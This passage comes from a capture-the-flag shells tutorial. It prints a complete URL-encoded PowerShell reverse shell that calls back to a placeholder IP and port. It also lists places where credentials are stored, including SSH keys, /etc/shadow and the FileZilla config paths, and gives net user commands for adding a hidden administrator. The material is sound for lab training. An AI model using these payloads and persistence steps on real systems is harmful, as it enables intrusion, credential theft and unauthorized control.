 As mentioned previously, there are a variety of webshells available on Kali by default at `/usr/share/webshells` -- including the infamous PentestMonkey php-reverse-shell -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the `cmd` argument:

```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.

## Task 12 Next Steps
Ok, we have a shell. Now what?

We've covered lots of ways to generate, send and receive shells. The one thing that these all have in common is that they tend to be unstable and non-interactive. Even Unix style shells which are easier to stabilise are not ideal. So, what can we do about this?

On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at `/home/<user>/.ssh` are often an ideal way to do this. In CTFs it's also not infrequent to find credentials lying around somewhere on the box. Some exploits will also allow you to add your own account. In particular something like Dirty C0w or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml`
 or `C:\xampp\FileZilla Server\FileZilla Server.xml`. These can be MD5 hashes or in plaintext, depending on the version.

Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.

The syntax for this is as follows:

`net user <username> <password> /add`
`net localgroup administrators <username> /add`

The important take away from this task:
